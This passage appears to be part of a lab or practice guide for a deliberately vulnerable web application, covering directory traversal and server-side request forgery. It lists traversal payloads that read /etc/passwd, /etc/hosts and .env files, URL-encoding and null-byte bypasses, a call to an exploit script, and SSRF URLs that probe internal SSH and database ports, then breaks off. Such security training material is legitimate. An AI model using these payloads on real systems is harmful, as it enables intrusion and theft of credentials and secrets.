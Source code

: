 
## 7. Directory/Path Traversal

### 🎯 Target: File viewing endpoints

### Basic Traversal Payloads
```bash
# Linux system files
../../../etc/passwd
../../../etc/hosts
../../../proc/version

# Application files
../app.py
../requirements.txt
../.env
```

### Advanced Bypasses
```bash
# URL encoding
..%2f..%2f..%2fetc%2fpasswd

# Double encoding
..%252f..%252f..%252fetc%252fpasswd

# Null byte injection
../../../etc/passwd%00.txt
```

### Automated Testing
```bash
python exploits/directory_traversal_exploit.py
```

### Manual Testing
1. Go to file viewing endpoint
2. Modify filename parameter
3. Try various traversal sequences
4. Look for sensitive file contents

---

## 8. Server-Side Request Forgery (SSRF)

### 🎯 Target: Stock checking API

### Internal Network Scanning
```bash
# Scan internal services
http://127.0.0.1:22    # SSH
http://127.0.0.1:3306  # MySQL
http://127.0.0.1:5432  # PostgreSQL
http://127.0.0.1:6379  # Redis
```
